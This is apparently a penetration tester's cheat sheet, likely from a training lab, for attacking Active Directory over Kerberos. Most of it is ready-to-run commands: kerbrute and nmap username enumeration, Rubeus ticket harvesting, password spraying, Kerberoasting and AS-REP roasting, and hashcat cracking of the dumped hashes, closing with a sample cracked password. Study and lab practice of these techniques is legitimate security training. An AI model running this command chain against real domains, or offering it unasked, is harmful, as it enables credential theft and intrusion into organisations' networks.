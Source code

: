 
### Enumerate usernames with kerbrute
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local ad-usernames.txt -v

Enumerate with nmap
```└─$ nmap -p 88 -script-args krb5-enum-users.realm=’10.11.70.89’,userdb=ad-usernames.txt ...DC IP...```

### Rubeus
<i>Attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting. brute force passwords as well as password spray user accounts</i>

///<b> Harvest tickets every 30 sec </b>
.\Rubeus harvest /interval:30
### Add host to windows hosts file 
echo 10.10.10.10 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
### Password spray with Rubeus
<i>Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.</i>

Rubeus.exe brute /password:Password1 /noticket

### Kerberoast with Rubeus
<i> Will automatically dump Kerberos hash of any kerberoastable users </i>

Rubeus.exe kerberoast

## ASREP Roast with Rubeus
<i>This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.</i>

Rubeus.exe asreproast

### Crack the kerberos hash with Hashcat
hashcat -m 13100 -a 0 HASH.txt rockyou.txt

output:
...snipped.....fd67337290d589b1436f6b56:MYPassword123#





















